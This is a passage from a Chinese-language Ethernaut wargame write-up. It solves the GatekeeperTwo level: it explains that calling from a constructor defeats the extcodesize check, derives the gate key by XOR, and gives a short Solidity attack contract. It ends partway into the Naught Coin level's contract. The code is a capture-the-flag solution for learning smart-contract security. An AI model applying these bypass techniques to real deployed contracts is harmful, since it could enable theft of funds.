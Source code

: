 ` caller() `：调用者的地址

所以合约中的` x `为我们攻击合约的代码长度；

但要使其为0，得是个账户地址，而不能是一个合约地址；

但是，从[stackexchange](https://ethereum.stackexchange.com/questions/15641/how-does-a-contract-find-out-if-another-address-is-a-contract/15642#15642)这个帖子中可以知道，在构造函数中运行，返回的是0；



#### 第三道关卡

```solidity
uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max)

type(uint64).max) = 0xFFFFFFFFFFFFFFFF;

// 异或
uint64(_gateKey) = 0xFFFFFFFFFFFFFFFF ^ uint64(bytes8(keccak256(abi.encodePacked(msg.sender))));
```

此时的` msg.sender `为攻击合约地址；

计算方法：` bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ 0xFFFFFFFFFFFFFFFF) `；



### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Ethernaut.sol";

contract Exp {
    constructor(address addr){
        GatekeeperTwo gt = GatekeeperTwo(addr);
        bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ 0xFFFFFFFFFFFFFFFF);
        require(gt.enter(key), "failed");
    }
}
```



## Level_15.Naught Coin

要求：

> 使账户的tokens余额为0；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
```